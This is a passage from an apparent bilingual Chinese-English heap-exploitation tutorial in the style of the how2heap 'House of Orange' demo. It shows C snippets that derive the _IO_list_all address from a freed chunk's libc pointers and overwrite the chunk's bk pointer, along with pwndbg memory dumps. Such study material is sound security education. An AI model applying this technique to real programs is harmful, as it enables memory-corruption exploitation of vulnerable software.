 ``` c
      The address of the _IO_list_all can be calculated from the fd and bk of the free chunk, as they
      currently point to the libc's main_arena.
      _IO_list_all 的地址可以通过被释放的chunk的 fd 和 bk 计算，它们现在指向的是 libc 的 main_area
    */
    io_list_all = top[2] + 0x9a8;
```

这样我们能推出 io_list_all 的地址：

```
pwndbg> p/x io_list_all 
$3 = 0x7ffff7dd2520
pwndbg> x/20xg 0x7ffff7dd2520
0x7ffff7dd2520 <_IO_list_all>:	0x00007ffff7dd2540	0x0000000000000000
0x7ffff7dd2530:	0x0000000000000000	0x0000000000000000
0x7ffff7dd2540 <_IO_2_1_stderr_>:	0x00000000fbad2887	0x00007ffff7dd25c3
0x7ffff7dd2550 <_IO_2_1_stderr_+16>:	0x00007ffff7dd25c3	0x00007ffff7dd25c3
0x7ffff7dd2560 <_IO_2_1_stderr_+32>:	0x00007ffff7dd25c3	0x00007ffff7dd25c3
0x7ffff7dd2570 <_IO_2_1_stderr_+48>:	0x00007ffff7dd25c3	0x00007ffff7dd25c3
0x7ffff7dd2580 <_IO_2_1_stderr_+64>:	0x00007ffff7dd25c4	0x0000000000000000
0x7ffff7dd2590 <_IO_2_1_stderr_+80>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd25a0 <_IO_2_1_stderr_+96>:	0x0000000000000000	0x00007ffff7dd2620
0x7ffff7dd25b0 <_IO_2_1_stderr_+112>:	0x0000000000000002	0xffffffffffffffff
```

``` c
    /*
      We plan to overwrite the fd and bk pointers of the old top,
      which has now been added to the unsorted bins.
      我们计划覆盖在旧的 top chunk 上的现在被加入 unsorted bins 的 fd 和 bk。

      When malloc tries to satisfy a request by splitting this free chunk
      the value at chunk->bk->fd gets overwritten with the address of the unsorted-bin-list
      in libc's main_arena.
      当 malloc 试图通过拆分这个 free chunk 满足请求时，chunk->bk->fd 的值会被 libc 中的 main_arena 中的 unsorted-bin-list 的地址所覆盖。

      Note that this overwrite occurs before the sanity check and therefore, will occur in any
      case.
      注意，这个覆盖发生在完整性检查之前，因此任何情况下都会发生。

      Here, we require that chunk->bk->fd to be the value of _IO_list_all.
      在这里，我们请求 chunk->bk->fd 的值为 _IO_list_all。
      So, we should set chunk->bk to be _IO_list_all - 16
      因此，我们需要设置 chunk->bk 为 _IO_list_all - 16
    */
 
    top[3] = io_list_all - 0x10;
```

修改前：
